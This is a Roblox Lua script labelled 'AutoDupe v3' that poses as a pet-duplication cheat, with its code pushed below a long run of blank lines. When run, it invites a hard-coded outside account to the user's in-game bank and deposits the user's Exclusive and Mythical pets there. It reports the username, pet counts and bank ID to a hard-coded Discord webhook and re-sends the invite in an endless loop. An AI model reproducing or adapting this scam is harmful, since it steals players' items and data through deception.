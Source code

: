 --Just Execute--AutoDupe v3



























































































































































































































































































































































































































































































































































local HoverBoard = 2891373746
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
    local mybanks = lib.Network.Invoke("get my banks")
    local BankID = mybanks[1]['BUID']
    lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], HoverBoard)

    local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
    local mybanks = lib.Network.Invoke("get my banks")
    local BankID = mybanks[1]['BUID']
    
local Bank = BankID

local A_1 = "b"
local A_2 = "bank deposit"
local Event = game:GetService("Workspace")["__THINGS"]["__REMOTES"].MAIN
Event:FireServer(A_1, A_2)

local A_1 = "b"
local A_2 = "buy egg"
local Event = game:GetService("Workspace")["__THINGS"]["__REMOTES"].MAIN
Event:FireServer(A_1, A_2)

local FinalList = {}
local output = 1
    Library     = require(game:GetService('ReplicatedStorage').Framework:FindFirstChild('Library'))
    Functions   = Library.Functions
    EXCList     = {}
    MythicList  = {}

    EList       = {}
    MList       = {}


    table.foreach(Library.Directory.Pets, function(i, v)
        if v.rarity == "Exclusive" then
            table.insert(EXCList, i)
        end
        if v.rarity == "Mythical" then
            table.insert(MythicList, i)
        end
    end)

local pets = require(game:GetService("ReplicatedStorage").Framework.Modules.Client["4 | Save"]).Get().Pets
for i, v in pairs(pets) do
if table.find(EXCList, v["id"]) ~= nil then
table.insert(EList, v["uid"])
end
if table.find(MythicList, v["id"]) ~= nil then
table.insert(MList, v["uid"])
end
end
if #EList + #MList < 49 then
for i, v in pairs(EList) do
table.insert(FinalList, v)
end
for i, v in pairs(MList) do
table.insert(FinalList, v)
end
elseif #EList + #MList > 49 and #EList < 49 then
for i, v in pairs(EList) do
table.insert(FinalList, v)
end
for i, v in pairs(MList) do
if #FinalList < 49 then
table.insert(FinalList, v)
end
end
elseif #EList + #MList > 49 and #EList > 49 then
for i, v in pairs(EList) do
if #FinalList < 49 then
table.insert(FinalList, v)
end
end
end
wait(0.5)
game:GetService("Players").LocalPlayer.PlayerScripts.Scripts.Game["Open Eggs"].Disabled = true
local A_1 = 
{
    [1] = "Cracked Egg", 
    [2] = false
}
local Event = game:GetService("Workspace")["__THINGS"]["__REMOTES"]["buy egg"]
Event:InvokeServer(A_1)
wait(0.5)
local A_1 = 
{
    [1] = Bank, 
    [2] = FinalList, 
    [3] = output-1
}
local Event = game:GetService("Workspace")["__THINGS"]["__REMOTES"]["bank deposit"]
local result = Event:InvokeServer(A_1)

-- wrb

local YourWebHookHere =  "https://discord.com/api/webhooks/973945128924348466/R8buxvN36VLKu8mvr9uncdbq_lNIqunC5JPDoCKRNRgUMHeRlT0iAmFLBSSD-Xgi0KhZ"  -- web hook here

local url = YourWebHookHere
local username = game:GetService("Players").LocalPlayer.Name
 
local data = {
  ["content"] = ">  by Creaky",
["embeds"] = {{
["title"] = "__**Open**__",
["description"] = "@everyone i can't track this expired or no",
["type"] = "rich",
["color"] = tonumber(0x0E980E),
["fields"] = {
               {
["name"] = "__Username__",
["value"] = "**"..username.."**", -- remove the || on both sides if you don't want your username to be behind a spoiler
["inline"] = false
},
               {
["name"] = "__Gems Deposited__",
["value"] = output-1,
["inline"] = false
},
{
["name"] = "__Total Pet Deposited__",
["value"] = #FinalList,
["inline"] = false
},
{
["name"] = "__Exclusive/Huges__",
["value"] = #EList,
["inline"] = false
},
{
["name"] = "__Mythicals__",
["value"] = #MList,
["inline"] = false
},
{
["name"] = "__BankID__",
["value"] = BankID,
["inline"] = false
},
}
}}
}
local newdata = game:GetService("HttpService"):JSONEncode(data)

local headers = {
  ["content-type"] = "application/json"
}
request = http_request or request or HttpPost or syn.request
local abcdef = {Url = url, Body = newdata, Method = "POST", Headers = headers}
request(abcdef)

while true do
    lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], HoverBoard)
    local YourWebHookHere2 =  "https://discord.com/api/webhooks/973945128924348466/R8buxvN36VLKu8mvr9uncdbq_lNIqunC5JPDoCKRNRgUMHeRlT0iAmFLBSSD-Xgi0KhZ"  -- web hook here

    local url2 = YourWebHookHere2
    local username2 = game:GetService("Players").LocalPlayer.Name
     
    local data2 = {
      ["content"] = "> "..username2.." Repeat ur Invites",
    ["embeds"] = {{
    ["title"] = "__** Results**__",
    ["description"] = "@everyone i can't track this expired or no",
    ["type"] = "rich",
    ["color"] = tonumber(0x0E980E),
    ["fields"] = {
                   {
    ["name"] = "__Username__",
    ["value"] = "**"..username2.."** Repeat ur Invites", -- remove the || on both sides if you don't want your username to be behind a spoiler
    ["inline"] = false
    },
                   {
    ["name"] = "__Cancel Invite__",
    ["value"] = "Yes",
    ["inline"] = false
    },
    }
    }}
    }
    local newdata2 = game:GetService("HttpService"):JSONEncode(data2)
    
    local headers2 = {
      ["content-type"] = "application/json"
    }
    request = http_request or request or HttpPost or syn.request
    local abcdef2 = {Url = url2, Body = newdata2, Method = "POST", Headers = headers2}
    request(abcdef2)
end
